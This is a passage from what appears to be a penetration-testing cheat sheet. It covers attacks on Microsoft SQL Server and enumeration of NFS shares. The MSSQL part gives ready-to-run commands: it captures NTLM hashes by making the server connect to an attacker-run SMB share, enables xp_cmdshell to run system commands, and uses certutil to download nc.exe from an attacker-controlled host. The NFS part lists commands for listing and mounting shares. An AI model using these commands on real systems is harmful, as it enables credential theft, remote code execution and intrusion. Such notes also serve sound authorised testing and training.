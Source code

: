 ### Having credentials

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```

---

## NFS - 2049

| **Command**                                                                                             | **Description**                                  |
| ------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `showmount -e <FQDN/IP>`                                                                                | Show available NFS shares.                       |
| `mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock`                                               | Mount the specific NFS share.umount ./target-NFS |
| `umount ./target-NFS`                                                                                   | Unmount the specific NFS share.                  |
| `sudo nmap --script nfs* 10.129.14.128 -sV -p111,2049`                                                  | Nmap nsf scan                                    |
|                                                                                                         |                                                  |
| `mkdir target-NFS` `sudo mount -t nfs 10.129.14.128:/ ./target-NFS/ -o nolock` `cd target-NFS` `tree .` | Mounting NFS share                               |
| `ls -l mnt/nfs/`                                                                                        | List Contents with Usernames & Group Names       |
| `ls -n mnt/nfs/`                                                                                        | List Contents with UIDs & GUIDs                  |
| `cd ..` `sudo umount ./target-NFS`                                                                      | Unmounting                                       |

### Show Mountable NFS Shares
